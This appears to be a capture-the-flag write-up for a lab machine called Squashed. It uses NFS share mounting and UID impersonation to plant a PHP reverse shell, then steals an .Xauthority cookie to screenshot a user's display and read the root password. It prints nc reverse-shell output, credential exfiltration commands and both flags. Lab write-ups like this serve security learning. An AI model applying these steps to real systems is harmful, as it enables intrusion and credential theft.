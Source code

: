 ![Squashed.PNG](/assets/Machines/Easy/Squashed/Squashed.png)

1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.11.191
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.11.191
```

**Output**
```bash
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
43463/tcp open  unknown
46301/tcp open  unknown
50059/tcp open  unknown
53411/tcp open  unknown
```


#### **NFS (Network File System)**
NFS is a server/client system enabling users to share files and directories across a network and allowing those shares to be mounted locally

3. Look shares hosted on target machine.
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Squashed]
└─| showmount -e squashed.htb
Export list for squashed.htb:
/home/ross    *
/var/www/html *
```



4. Mount the directories
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Squashed]
└─| mount -t nfs squashed.htb:/var/www/html /mnt/1
```

---

```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Squashed]
└─| mount -t nfs squashed.htb:/home/ross /mnt/2
```

5. Look the permissions of each directory
```bash
┌──(root㉿kali)-[/mnt]
└─| ls -ld 1 
drwxr-xr-- 5 2017 www-data 4096 Nov 11 19:15 1
```

---

```bash
┌──(root㉿kali)-[/mnt]
└─| ls -ld 2
drwxr-xr-x 14 1001 1001 4096 Nov 11 16:54 2
```

6. Now, we can try to add a false user with the same permission of `/mnt/1` (**2017**)


```bash
┌──(root㉿kali)-[/mnt]
└─| useradd xela
```

---

```bash
┌──(root㉿kali)-[/mnt]
└─| usermod -u 2017 xela
```

---

```bash
┌──(root㉿kali)-[/mnt]
└─| groupmod -g 2017 xela
```


7. Yup!, we can add files into **1 directory**, in this case add **reverse_shell.php**

8. Listen with nc

9. Make petition to **reverse_shell.php** into navigator.

![revshell.PNG](/assets/Machines/Easy/Squashed/revshell.PNG)


10. Now, we can obtain a reverse shell
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Squashed]
└─| nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.191] 58116
Linux squashed.htb 5.4.0-131-generic #147-Ubuntu SMP Fri Oct 14 17:07:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 00:29:00 up  2:35,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               21:54    2:35m 14.39s  0.05s /usr/libexec/gnome-session-binary --systemd --session=gnome
uid=2017(alex) gid=2017(alex) groups=2017(alex)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
alex
```

11. Spawn a `/bin/bash` 
```bash
$ python3 -c "import pty; pty.spawn('/bin/bash')"
alex@squashed:/$ 

```

12. Cat a **user flag** in path `/home/alex`

```bash
alex@squashed:/home/alex$ cat user.txt
cat user.txt
b71517c79a0ccaf0e97230b0bf0f58c7
```


### **It's time to escalate privileges** 🐓
1. Create a false user with the same permission of `/mnt/2` (**1001**)

```bash
┌──(root㉿kali)-[/mnt]
└─| useradd ssor        
```                                                                                  

```bash
┌──(root㉿kali)-[/mnt]
└─| usermod -u 1001 ssor 
```  

```bash          
┌──(root㉿kali)-[/mnt]
└─| groupmod -g 1001 ssor 
```     
                                                                             
```bash   
┌──(root㉿kali)-[/mnt]
└─| su ssor
```

2. Search all files into **2 directory**
```bash
$ ls -la
```

**Output**
```bash
drwxr-xr-x 14 ssor ssor 4096 Nov 11 16:54 .
drwxr-xr-x  4 root root 4096 Nov 11 19:18 ..
lrwxrwxrwx  1 root root    9 Oct 20 09:24 .bash_history -> /dev/null
drwx------ 11 ssor ssor 4096 Oct 21 10:57 .cache
drwx------ 12 ssor ssor 4096 Oct 21 10:57 .config
drwxr-xr-x  2 ssor ssor 4096 Oct 21 10:57 Desktop
drwxr-xr-x  2 ssor ssor 4096 Oct 21 10:57 Documents
drwxr-xr-x  2 ssor ssor 4096 Oct 21 10:57 Downloads
drwx------  3 ssor ssor 4096 Oct 21 10:57 .gnupg
drwx------  3 ssor ssor 4096 Oct 21 10:57 .local
drwxr-xr-x  2 ssor ssor 4096 Oct 21 10:57 Music
drwxr-xr-x  2 ssor ssor 4096 Oct 21 10:57 Pictures
drwxr-xr-x  2 ssor ssor 4096 Oct 21 10:57 Public
drwxr-xr-x  2 ssor ssor 4096 Oct 21 10:57 Templates
drwxr-xr-x  2 ssor ssor 4096 Oct 21 10:57 Videos
lrwxrwxrwx  1 root root    9 Oct 21 09:07 .viminfo -> /dev/null
-rw-------  1 ssor ssor   57 Nov 11 16:54 .Xauthority
-rw-------  1 ssor ssor 2475 Nov 11 16:54 .xsession-errors
-rw-------  1 ssor ssor 2475 Oct 31 06:13 .xsession-errors.old
```


* Existence of file **.Xauthority** we tell exist any program for manager GUI with windows.

* **.Xauthority**: This file is used to store credentials into a cookie. When a session is then used to authenticate.

* The idea is stole this credentials with our user **ssor**



3. Read this credential in base64 to evitate errors
```bash
$ cat .Xauthority | base64
AQAADHNxdWFzaGVkLmh0YgABMAASTUlULU1BR0lDLUNPT0tJRS0xABB6mDSUNLTGqArocGpxSMYi
```

4. Put this credential decode into a directory `/tmp` on target machine.

```bash
alex@squashed:/home/alex$ echo "AQAADHNxdWFzaGVkLmh0YgABMAASTUlULU1BR0lDLUNPT0tJRS0xABB6mDSUNLTGqArocGpxSMYi" | base64 -d > /tmp/.Xauthority
```

5. Create a environment variable
```bash
alex@squashed:/tmp$ export XAUTHORITY=/tmp/.Xauthority
```

6. To stole the credential first should know what screen is using by **ross**

```bash
alex@squashed:/tmp$ w
w
 00:53:57 up  3:00,  1 user,  load average: 0.01, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               21:54    3:00m 16.58s  0.05s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

* He is using `:0`


7. Use **xwd** to dump screen 
```bash
alex@squashed:/tmp$ xwd -root -screen -silent -display :0 > /tmp/screenross.xwd
```

8. Create a server in current directory and download **screenross.xwd** file in our machine.

```bash
alex@squashed:/tmp$ python3 -m http.server
```

---

```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Squashed]
└─| wget http://squashed.htb:8000/screenross.xwd
```

9. Use **convert** to tranform data into **png** file
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Squashed]
└─| convert screenross.xwd screenross.png
```

10. Open the image

![creds.PNG](/assets/Machines/Easy/Squashed/creds.PNG)


11. Log with ssh
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Squashed]
└─| ssh root@squashed.htb
```

12. Cat the **root flag**s

```bash
root@squashed:~| cat root.txt 
504ad8cb4e3d2babaa19f29cfce0afa7
```